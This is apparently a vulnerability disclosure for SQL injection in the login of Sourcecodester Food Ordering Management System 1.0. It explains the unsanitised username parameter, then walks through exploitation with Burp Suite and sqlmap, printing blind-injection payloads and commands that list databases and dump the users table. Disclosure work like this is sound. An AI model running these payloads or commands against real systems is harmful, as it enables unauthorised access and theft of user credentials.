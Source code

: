 
# SQL Injection vulnerability was discovered from Sourcecodester Food Ordering Management System 1.0 (login)

Affected Project: Sourcecodester Food Ordering Management System 1.0
Official Website: https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html
Version: 1.0

Related Code file: router.php

Injection parameter: username


## Vulnerability Analysis

1. Lack of Input Validation and Sanitization:
The username and password fields are directly used in the SQL query without any sanitization or validation. This allows an attacker to manipulate the SQL query by injecting malicious SQL code.

2. Use of Plain SQL Queries:
The script likely uses plain SQL queries to interact with the database. Without prepared statements, this approach is highly vulnerable to SQL injection.

## Demonstraation

Below is the login.php:

`http://172.16.76.1/foms/login.php`

![image](https://github.com/jadu101/CVE/assets/76433661/5f48cb34-18a4-4b03-8848-964b87b60b94)

We will first intercept the login traffic using Burp Suite. Web app is using router.php for login:

![image-1](https://github.com/jadu101/CVE/assets/76433661/cf2eb00b-1072-4879-871d-fea55e0e27ee)

Save the intercepted login request to a .txt file and execute sqlmap towards it. 

parameter username is vulnerable to boolean-based blind sql injection

Below commands verifies the vulnerability:

`sqlmap -r foms_login_php.txt --batch`

![image-2](https://github.com/jadu101/CVE/assets/76433661/cefe36df-faac-4a01-add2-d8ea640290bd)

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: username=admin' AND 7413=7413 AND 'DhRh'='DhRh&password=admin123

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=admin' AND (SELECT 3140 FROM (SELECT(SLEEP(5)))KQvB) AND 'JGgH'='JGgH&password=admin123
---
```

Below commnd will list databases:

`sqlmap -r foms_login_php.txt --batch -p username --dbs`

![image-3](https://github.com/jadu101/CVE/assets/76433661/fe318b8c-e4cd-4110-bcf6-f2fe4b11ece3)


Below command will dump data inside foms_db database table users:

`sqlmap -r foms_login_php.txt --batch -p username --dbs -D foms_db -T users --dump`

![image-4](https://github.com/jadu101/CVE/assets/76433661/a9cb9cc8-14a4-4517-bb1b-7e0f27c15665)
